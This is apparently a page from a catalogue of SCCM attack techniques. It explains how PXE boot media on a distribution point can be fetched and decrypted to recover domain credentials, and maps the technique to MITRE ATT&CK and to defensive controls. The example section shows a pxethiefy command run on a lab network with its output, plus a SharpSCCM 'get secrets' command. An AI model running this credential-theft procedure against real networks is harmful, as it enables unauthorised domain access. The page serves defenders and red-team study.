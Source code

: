 # Retrieve secrets from PXE boot media
## Code Name
- CRED-1

## MITRE ATT&CK TTPs
- [TA0001 - Initial Access](https://attack.mitre.org/tactics/TA0001)
- [TA0006 - Credential Access](https://attack.mitre.org/tactics/TA0006)
- [T1078.002 - Valid Accounts: Domain Accounts](https://attack.mitre.org/techniques/T1078/002/)

## Requirements
- Unauthenticated network access
- Line of sight to DHCP server
- Line of sight to PXE-enabled distrution point

## Summary
SCCM contains a preboot execution environment (PXE) feature which allows systems to load a specific operating system image on boot.

When PXE is configured, SCCM will make various [configuration changes](https://learn.microsoft.com/en-us/troubleshoot/mem/configmgr/os-deployment/understand-pxe-boot#pxe-service-point-installation) to the distribution point (DP). Most notably, the `PxeInstalled` and `IsPxe` values under the `HKLM\Software\Microsoft\SMS\DP` registry key are set to `1`.

The boot images are then [deployed](https://learn.microsoft.com/en-us/troubleshoot/mem/configmgr/os-deployment/understand-pxe-boot#add-boot-images-to-a-pxe-enabled-dp) from the site server to the DP's file system at `C:\RemoteInstall\`.

The three required components for PXE boot to work are: a PXE client, a DHCP server, and a PXE-enabled DP. A non-domain-joined computer (the PXE client in this case) that has network access could initiate the [DHCP process](https://www.mwrcybersec.com/research_items/identifying-and-retrieving-credentials-from-sccm-mecm-task-sequences), resulting in the PXE client receiving a DHCPPACK request containing the `BootFileName` location and Windows Deployment Services (WDS) network boot program (NBP). Next, the client initiates a TFTP session to [download](https://learn.microsoft.com/en-us/troubleshoot/mem/configmgr/os-deployment/understand-pxe-boot#downloading-the-boot-files) the NBP. The NBP contains several files and and programs that are used to boot the computer into a Windows Preinstallation Environment (WinPE).

To Summarize this process, how PXE works in SCCM:
1. PXE client gets an IP from DHCP server​
2. Client sends new DHCPREQUEST to DP, DP responds with DHCPACK that contains the BootFileName​
3. Client starts TFTP session targeting the boot file​
4. Client downloads the network boot program (NBP)​
5. NBP downloads the operating system loader and boot files​
6. The WinPE image is loaded into a RAMDISK in memory​
7. WinPE boots, loading a task sequence (TS) boot shell, TS manager boot strap (TsPxe.dll)​
8. TS environment variables and a client certificate are downloaded via TFTP​
9. TSPXE locates the MP and downloads policy assignments​
10. Collection and machine variables are downloaded

**Note:** This goes beyond the scope of this article but Microsoft's [documentation](https://learn.microsoft.com/en-us/troubleshoot/mem/configmgr/os-deployment/understand-pxe-boot) covers it in more depth.

This process can be abused because the files and policies can be accessed without booting the PXE media. By initiating the DHCPDISCOVER request, an attacker can locate the PXE media on the network and check if they are password-protected. If they are protected, the hash can be retrieved and cracked offline using [hashcat](https://github.com/hashcat/hashcat) and [this custom module](https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module) from Christopher Panayi. If not protected, the cleartext data can be directly used. [PXEThief](https://github.com/MWR-CyberSec/PXEThief​) and [pxethiefy](https://github.com/csandker/pxethiefy​) both enable and trivialize this attack.

Once the media file is decrypted, it may contain credential material in the `NAAConfig` (network access account(NAA)), `TaskSequence`, and `CollectionSettings` (collection variables) policies.


## Impact

Attackers may recover domain credentials from this process, the difficulty of which is a direct function of the complexity of the password set on the PXE media file. If a weak password is set, cracking the password is relatively computionally "easy," depending on the hardware.

With these credentials, attackers may transition from an unauthenticated context on the network to a domain-authenticated context. If any of the credentials recovered are privileged, it may also enable privilege escalation and lateral movement vectors.

## Defensive IDs
- [PREVENT-4](../../../defense-techniques/PREVENT/PREVENT-4/prevent-4_description.md)
- [PREVENT-7](../../../defense-techniques/PREVENT/PREVENT-7/prevent-7_description.md)
- [PREVENT-8](../../../defense-techniques/PREVENT/PREVENT-8/prevent-8_description.md)
- [PREVENT-11](../../../defense-techniques/PREVENT/PREVENT-11/prevent-11_description.md)

## Examples

- Using pxethiefy from a Linux machine with network access to retrieve a PXE media file with no password set
```
testsubject4@sphere4:~$ sudo python3 pxethiefy.py explore -i eth0 -a atlas.aperture.local
 
 ________  ___    ___ _______  _________  ___  ___  ___  _______   ________ ___    ___ 
|\   __  \|\  \  /  /|\  ___ \|\___   ___\\  \|\  \|\  \|\  ___ \ |\  _____\\  \  /  /|
\ \  \|\  \ \  \/  / | \   __/\|___ \  \_\ \  \\\  \ \  \ \   __/|\ \  \__/\ \  \/  / /
 \ \   ____\ \    / / \ \  \_|/__  \ \  \ \ \   __  \ \  \ \  \_|/_\ \   __\\ \    / / 
  \ \  \___|/     \/   \ \  \_|\ \  \ \  \ \ \  \ \  \ \  \ \  \_|\ \ \  \_| \/  /  /  
   \ \__\  /  /\   \    \ \_______\  \ \__\ \ \__\ \__\ \__\ \_______\ \__\__/  / /    
    \|__| /__/ /\ __\    \|_______|   \|__|  \|__|\|__|\|__|\|_______|\|__|\___/ /     
          |__|/ \|__|                                                     \|___|/      
                                                                                       v.0.0.2
                                                Based on the original PXEThief by MWR-CyberSec
                                                     https://github.com/MWR-CyberSec/PXEThief/

[*] Querying Distribution Point: atlas.aperture.local
[*] Sending DHCP request to fetch PXE boot files at: atlas.aperture.local
--- Scapy output ---
.
Sent 1 packets.
[*] Variables File Location: \SMSTemp\2023.10.13.16.48.53.0001.{23F3F1E7-6083-4BB7-97D3-C7B890BADB71}.boot.var
[*] BCD File Location: \SMSTemp\2023.10.13.16.48.53.07.{23F3F1E7-6083-4BB7-97D3-C7B890BADB71}.boot.bcd
[*] Downloading var file '\SMSTemp\2023.10.13.16.48.53.0001.{23F3F1E7-6083-4BB7-97D3-C7B890BADB71}.boot.var' from TFTP server 'atlas.aperture.local'
[+] Blank password on PXE media file found!
[*] Attempting to decrypt it...
[+] Media variables file to decrypt: 2023.10.13.16.48.53.0001.{23F3F1E7-6083-4BB7-97D3-C7B890BADB71}.boot.var
[+] Password bytes provided: 0xb4ff3000ceff90fffbff4c00ceff89ffdcff4800
[+] Successfully decrypted media variables file with the provided password!
[+] Management Point: http://atlas.aperture.local
[+] Site Code: PS1
[+] You can use the following information with SharpSCCM in an attempt to obtain secrets from the Management Point..
  SharpSCCM.exe get secrets -i "{d10d7f98-17dd-4588-b645-34964936023b}" -m "{5F8225E8-6B94-4830-AD90-0F88FC2B3536}" -c "3082073E020103308206FA06092A864886F70D010701A08206EB048206E7308206E33082

<SNIP>

6C458FCF53D0A6D2DBA446F1C0414FAD1E03A89D8481E26D7C1BED1E71FDC3272C701020207D0" -s -c PS1 -mp atlas.aperture.local
```

## References
- Christopher Panayi, Identifying and Retrieving Credentials From SCCM/MECM Task Sequences, https://www.mwrcybersec.com/research_items/identifying-and-retrieving-credentials-from-sccm-mecm-task-sequences
- Christopher Panayi, Pulling Passwords Out of Configuration Manager, https://www.youtube.com/watch?v=Ly9goAud0gs
- Christopher Panayi, PXEThief, https://github.com/MWR-CyberSec/PXEThief
- Christopher Panayi, AES-128 ConfigMgr CryptDeriveKey Hashcat Module, https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module
- Carsten Sandker, pxethiefy, https://github.com/csandker/pxethiefy​
- Microsoft, Understanding PXE Boot, https://learn.microsoft.com/en-us/troubleshoot/mem/configmgr/os-deployment/understand-pxe-boot
